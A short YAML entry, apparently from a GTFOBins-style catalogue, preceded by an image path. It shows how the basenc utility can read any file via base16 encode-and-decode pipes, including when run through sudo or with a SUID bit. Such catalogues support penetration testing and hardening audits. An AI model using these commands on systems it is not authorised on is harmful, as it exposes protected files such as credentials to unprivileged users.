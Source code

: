 ```yaml
---
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        basenc --base16 $LFILE | basenc -d --base16
  suid:
    - code: |
        LFILE=file_to_read
        basenc --base16 $LFILE | basenc -d --base16
  sudo:
    - code: |
        LFILE=file_to_read
        sudo basenc --base16 $LFILE | basenc -d --base16
---
```

